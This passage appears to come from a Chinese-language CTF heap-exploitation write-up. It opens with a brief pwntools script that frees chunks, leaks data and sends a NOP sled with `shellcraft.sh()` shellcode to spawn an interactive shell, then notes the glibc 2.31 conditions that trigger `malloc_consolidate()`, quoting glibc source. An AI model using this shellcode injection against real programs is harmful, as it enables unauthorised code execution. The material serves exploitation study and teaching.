 ```python
remove(1)
remove(2)
input()
show('2')

sleep(1)
r.send(b'\x90'*0x10 + asm(shellcraft.sh()))

r.interactive()
```



- asm 中，jmp instruction 的寫法為 `jmp .+0x10`

- fastbin consolidate 會由 `malloc_consolidate()` 來完成，call `malloc_consolidate()` 有一些條件 (glibc 2.31):

- 1. large bin request 時

     ```c
     // _int_malloc()
        /*
          If this is a large request, consolidate fastbins before continuing.
          While it might look excessive to kill all fastbins before
          even seeing if there is space available, this avoids
          fragmentation problems normally associated with fastbins.
          Also, in practice, programs tend to have runs of either small or
          large requests, but less often mixtures, so consolidation is not
          invoked all that often in most programs. And the programs that
          it is called frequently in otherwise tend to fragment.
        */
     
       else
         {
           idx = largebin_index (nb);
           if (atomic_load_relaxed (&av->have_fastchunks))
             malloc_consolidate (av);
         }
     ```

  2. atomic ops

     ```c
     // _int_malloc()
     	/* When we are using atomic ops to free fast chunks we can get
              here for all block sizes.  */
           else if (atomic_load_relaxed (&av->have_fastchunks))
             {
               malloc_consolidate (av);
               /* restore original bin index */
               if (in_smallbin_range (nb))
                 idx = smallbin_index (nb);
               else
                 idx = largebin_index (nb);
             }
     ```
